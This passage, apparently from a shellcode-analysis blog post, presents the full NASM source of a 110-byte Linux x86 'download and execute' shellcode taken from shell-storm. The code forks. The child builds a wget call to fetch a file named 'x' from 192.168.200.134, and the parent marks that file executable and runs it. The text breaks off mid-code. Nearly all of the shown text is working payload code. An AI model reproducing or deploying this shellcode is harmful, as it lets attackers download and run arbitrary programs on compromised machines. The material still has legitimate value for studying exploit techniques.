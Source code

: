 ### Third Shellcode - downloadexec.nasm - 110 bytes

[Shellcode Link](http://shell-storm.org/shellcode/files/shellcode-862.php){:target="_blank"}

This shellcode has only been tested on Ubuntu 12.04 32 bits

Original NASM code:

{% highlight js %}
global _start

section .text

_start:

    ;fork
    xor eax,eax
    mov al,0x2
    int 0x80
    xor ebx,ebx
    cmp eax,ebx
    jz child
  
    ;wait(NULL)
    xor eax,eax
    mov al,0x7
    int 0x80
        
    ;chmod x
    xor ecx,ecx
    xor eax, eax
    push eax
    mov al, 0xf
    push 0x78
    mov ebx, esp
    xor ecx, ecx
    mov cx, 0x1ff
    int 0x80
    
    ;exec x
    xor eax, eax
    push eax
    push 0x78
    mov ebx, esp
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp
    mov al, 11
    int 0x80
    
child:
    ;download 192.168.200.134/x with wget
    push 0xb
    pop eax
    cdq
    push edx
    
    push 0x78 ;x avoid null byte
    push 0x2f343331 ;/431 
    push 0x2e303032 ;.002
    push 0x2e383631 ;.861
    push 0x2e323931 ;.291
    mov ecx,esp
    push edx
    
    push 0x74 ;t
    push 0x6567772f ;egw/
    push 0x6e69622f ;nib/